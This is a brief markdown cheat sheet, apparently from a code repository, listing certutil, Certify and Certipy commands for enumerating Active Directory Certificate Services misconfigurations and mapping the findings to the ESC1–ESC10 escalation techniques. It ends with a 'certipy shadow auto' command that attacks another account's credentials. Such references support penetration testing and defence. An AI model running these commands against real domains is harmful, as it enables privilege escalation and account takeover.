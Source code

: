 # ADCS Misconfigurations/Vulnerabilities enumeration

## 1) Get templates information

 - certutil -v -dsTemplate

 - certify.exe find [/vulnerable]

 - certipy find -u USER@DOMAIN -p PASSWORD -dc-ip DC

### If we find true positive results, we proceed to exploitation via ESC1 (Request a certificate from a vulnerable template), ESC2 and ESC3 (Use an enrollment agent to request a certificate) Techniques

## 2) Get ACL Information

 - certipy find -u USER@DOMAIN -p PASSWORD -dc-ip DOMAIN_CONTROLLER

### If we find true positive results, we proceed to exploitation via ESC4 and ESC7 techniques

## 3) Display CA Information

 - certutil -TCAInfo

 - certify.exe cas

## 4) Get PKI Objects Information

 - certify.exe pkiobjects

### If we find true positive results, we proceed to exploitation via ESC5 technique

## 5) Get CA Flags (if remote registry is enabled)

 - certutil -config "CA_HOST\CA_NAME" -getreg "policy\EditFlags"

 - certipy / certify.exe (only the flag ATTRIBUTESUBJECTALTNAME2)

### If we find true positive results, we proceed to exploitation via ESC6 technique

## If Web enrollment is up, we can proceed to exploitation via the ESC8 technique

# Misconfigured Certificate Mapping (blind test) (ESC9/ESC10)

 - certipy shadow auto -username ACCOUNT1@DOMAIN -p PASS1 -account ACCOUNT2
